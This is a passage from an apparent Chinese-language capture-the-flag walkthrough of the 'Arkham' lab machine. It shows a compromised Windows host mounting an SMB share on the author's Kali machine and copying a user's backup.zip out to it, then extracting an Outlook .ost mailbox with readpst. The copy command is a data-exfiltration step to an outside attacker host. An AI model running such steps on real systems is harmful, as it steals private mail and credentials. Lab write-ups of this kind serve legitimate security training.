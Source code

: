 然后连接：

```
C:\>net use \\10.10.14.11\share /u:mac mac
The command completed successfully.
```

并将文件复制到我的 Kali 中：

```
copy C:\Users\Alfred\Downloads\backups\backup.zip \\10.10.14.14\share\
        1 file(s) copied.
```

解压该文件，里面包含一个 ost 文件，是 Microsoft Outlook 的脱机文件夹文件

```
root@kali# unzip -l backup.zip 
Archive:  backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
 16818176  2019-02-02 18:00   alfred@arkham.local.ost
---------                     -------
 16818176                     1 file
```

readpst是一个从 Linux 解析文件的工具，该工具可以用来解析.pst、.ost文件

> Outlook数据提取工具readpst:Outlook是Windows常用的邮件客户端。它将用户的信息保存到.pst文件中，如邮件、约会、日历、联系人等信息。为了便于查看这些信息，Kali Linux内置了一款专用工具集readpst。该工具集可以将.pst文件中的数据提取保存为文本形式mbox。在提取的时候，渗透测试人员按照邮件内容，分目录进行保存。同时，该工具集还可以将数据导出为LDAP专用的.ldif格式和Summation专用的DII格式，便于后期数据的分析。

```
root@kali# readpst alfred@arkham.local.ost 
Opening PST file and indexes...
Processing Folder "Deleted Items"
Processing Folder "Inbox"
Processing Folder "Outbox"
Processing Folder "Sent Items"
Processing Folder "Calendar"
Processing Folder "Contacts"
Processing Folder "Conversation Action Settings"
Processing Folder "Drafts"
Processing Folder "Journal"
Processing Folder "Junk E-Mail"
Processing Folder "Notes"
Processing Folder "Tasks"
Processing Folder "Sync Issues"
        "Inbox" - 0 items done, 7 items skipped.
Processing Folder "RSS Feeds"
Processing Folder "Quick Step Settings"
        "alfred@arkham.local.ost" - 15 items done, 0 items skipped.
        "Calendar" - 0 items done, 3 items skipped.
Processing Folder "Conflicts"
Processing Folder "Local Failures"
Processing Folder "Server Failures"
        "Sync Issues" - 3 items done, 0 items skipped.
        "Drafts" - 1 items done, 0 items skipped.
```
